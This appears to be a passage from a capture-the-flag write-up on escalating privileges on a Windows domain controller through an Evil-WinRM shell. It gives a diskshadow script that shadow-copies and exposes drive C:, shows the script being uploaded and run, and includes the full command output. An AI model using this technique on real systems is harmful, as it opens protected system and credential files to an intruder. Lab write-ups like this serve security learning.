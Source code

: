 * afte some google search i go accross this pdf file [show me your privileges and I will lead you to SYSTEM](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf)

> first we need to use diskshadow to first make a new volume and alias it with the volume C: so i can read everything from the volume c.

* read this to understand diskshadow commands. [Diskshadow docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow)- [Diskshadow examples](https://docs.datacore.com/WIK-WebHelp/VSS/DiskShadow_Commands_Example.htm)

* here is my txt file

```ruby

set context persistent nowriters#
add volume c: alias new1#
create#
expose %new1% z:#

```
* let's upload it now.

```ruby

*Evil-WinRM* PS C:\temp> upload disk-shadow-devo.txt
Info: Uploading disk-shadow-devo.txt to C:\temp\disk-shadow-devo.txt

                                                             
Data: 112 bytes of 112 bytes copied

Info: Upload successful!

```
* now let's run it

> **diskshadow /s disk-shadow-devo.txt**

```ruby

*Evil-WinRM* PS C:\temp> diskshadow /s disk-shadow-devo.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  10/2/2020 9:33:54 PM

-> set context persistent nowriters
-> add volume c: alias new1
-> create
Alias new1 for shadow ID {58e9f038-6f01-4038-82ec-9e0f0273f75c} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {09957e39-a36b-486e-a848-3b8383dba9ba} set as environment variable.

Querying all shadow copies with the shadow copy set ID {09957e39-a36b-486e-a848-3b8383dba9ba}

	* Shadow copy ID = {58e9f038-6f01-4038-82ec-9e0f0273f75c}		%new1%
		- Shadow copy set: {09957e39-a36b-486e-a848-3b8383dba9ba}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
		- Creation time: 10/2/2020 9:33:54 PM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
		- Originating machine: DC01.BLACKFIELD.local
		- Service machine: DC01.BLACKFIELD.local
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %new1% z:
```